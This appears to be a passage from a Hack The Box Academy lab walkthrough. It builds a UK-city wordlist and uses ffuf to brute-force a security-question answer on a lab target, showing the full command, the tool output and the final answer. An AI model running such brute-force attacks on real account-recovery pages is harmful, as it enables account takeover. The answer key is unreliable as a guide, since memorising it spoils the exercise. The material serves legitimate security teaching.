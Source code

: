 Code: shell

```shell
cat world-cities.csv | grep 'United Kingdom' | cut -d "," -f 1 > UK_Cities.txt
```

```
┌─[eu-academy-5]─[10.10.14.81]─[htb-ac-413848@htb-a6lye3msi7]─[~]
└──╼ [★]$ cat world-cities.csv | grep 'United Kingdom' | cut -d "," -f 1 > UK_Cities.txt
```

Afterward, students need to use `ffuf` to brute-force the valid security answer, making use of the modified wordlist and the `PHPSESSID` cookie value:

Code: shell

```shell
ffuf -w UK_Cities.txt -u http://STMIP:STMPO/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "security_response=FUZZ" -fr "Incorrect response." -b "PHPSESSID=5crasoe3ebnhnb8biknkcon5co" -t 60
```

```
┌─[eu-academy-5]─[10.10.14.81]─[htb-ac-413848@htb-a6lye3msi7]─[~]
└──╼ [★]$ ffuf -w UK_Cities.txt -u http://94.237.54.176:34629/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "security_response=FUZZ" -fr "Incorrect response." -b "PHPSESSID=5crasoe3ebnhnb8biknkcon5co" -t 60

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0
________________________________________________

 :: Method           : POST
 :: URL              : http://94.237.54.176:34629/security_question.php
 :: Wordlist         : FUZZ: /home/htb-ac-413848/UK_Cities.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Cookie: PHPSESSID=5crasoe3ebnhnb8biknkcon5co
 :: Data             : security_response=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 60
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Incorrect response.
________________________________________________

{hidden}              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 16ms]
```

Answer: `Manchester`
